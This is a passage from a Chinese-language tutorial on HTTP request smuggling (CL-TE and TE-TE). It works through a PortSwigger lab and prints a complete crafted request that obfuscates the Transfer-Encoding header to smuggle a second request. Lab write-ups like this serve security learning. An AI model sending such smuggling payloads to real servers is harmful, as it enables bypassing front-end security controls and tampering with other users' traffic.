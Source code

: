 ![输入图片说明](https://images.gitee.com/uploads/images/2020/0818/211319_37024685_508704.png)

由于前端服务器处理Transfer-Encoding，当其读取到0\r\n\r\n时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理Content-Length请求头，当它读取完12\r\n之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是

```
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错。

## TE-TE

TE-TE，也很容易理解，当收到存在两个请求头的请求包时，前后端服务器都处理Transfer-Encoding请求头，这确实是实现了RFC的标准。

不过前后端服务器毕竟不是同一种，这就有了一种方法，我们可以对发送的请求包中的Transfer-Encoding进行某种混淆操作，从而使其中一个服务器不处理Transfer-Encoding请求头。

从某种意义上还是CL-TE或者TE-CL

Lab地址：https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

构造数据包

```
POST / HTTP/1.1\r\n
Host: ac4b1fcb1f596028803b11a2007400e4.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=Mew4QW7BRxkhk0p1Thny2GiXiZwZdMd8\r\n
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

![输入图片说明](https://images.gitee.com/uploads/images/2020/0818/211456_90c4028e_508704.png)


# 攻击实例

## 绕过前端服务器的安全控制
